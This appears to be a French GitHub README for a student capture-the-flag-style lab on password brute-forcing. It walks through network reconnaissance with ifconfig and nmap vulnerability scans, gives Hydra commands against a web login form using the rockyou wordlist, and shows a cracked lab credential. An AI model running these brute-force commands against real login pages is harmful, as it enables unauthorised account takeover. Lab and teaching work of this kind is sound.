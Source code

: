 # Brute force mot de passe   

___

Les étapes :     
**ifconfig** pour avoir le masque sous réseau et en déduire l'IP du réseau   
Scan du réseau pour voir l'ensemble des ports ouverts et des machines connectées avec **nmap IP du réseau**    
Obtenir des infos sur la cible (son adresse IP, ses ports ouverts, les statuts des ports et les services qu'ils utilisent, son adresse mac, son OS)   
avec **nmap -O IP de la machine connectée** et **nmap --script default IP de la machine connectée au réseau**          
Scan des vulnérabilités avec **nmpap -v --script vuln IP de la machine connectée**  
____


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/27181ac6-8086-46bf-82a4-8e9e939d99f1)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/2e29b2a4-7129-4805-80ac-747e6691bb0d)


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/421c9817-c264-406d-91b6-289da34d0a7d)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/2fd3b248-1870-4147-9fc5-da17a689d2b6)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/f91015c0-1c03-4873-94e5-5457971dd51a)



![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/03415c7f-de60-4abb-812c-adda0fd781fb)

https://gist.githubusercontent.com/techerbeatrice/8204e406ba94922aba76167b08c2c38e/raw/fad76d1f4dc16377b9ecd98f9f6f52c13e6a4443/gistfile1.txt


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/419dbeba-f18e-4c21-9d4c-df2f7cbbadfb)

_____

Le lien php à craquer :    

http://challenge.servehttp.com/login.php

_____

Tutoriel commande sur Hydra :    

hydra  -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.104 http-post-form "/login:username=^USER^&password=^PASS^:F=Mot de passe invalide" -V

Comment utiliser hydra sur un formulaire web?
Pour faire du bruteforce avec hydra sur une formulaire web, il faudra utiliser la syntaxe suivante
**hydra -l -P http-post-form "{lien vers la page de connexion}:{les paramètres du formulaire}:F={message a rechercher sur la page si la connexion échoue}"**

Dans notre cas l’adresse de la cible est http://192.168.56.104/login, le message d’erreut est “Mot de passe invalide”, et enfin les paramètres de la requête que nous avons pu avoir grâce a l’option réseau du web develloper de firefox.


La commande finale donne:

hydra -l molly -P rockyou.txt 10.10.219.212 http-post-form "/login:username=^USER^&password=^PASS^:F=Your password is incorrect" -V. 
Résultat…

[80][http-post-form] host: 10.10.219.212   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/ba0b322c-55dd-414b-a14e-4249292e0410)


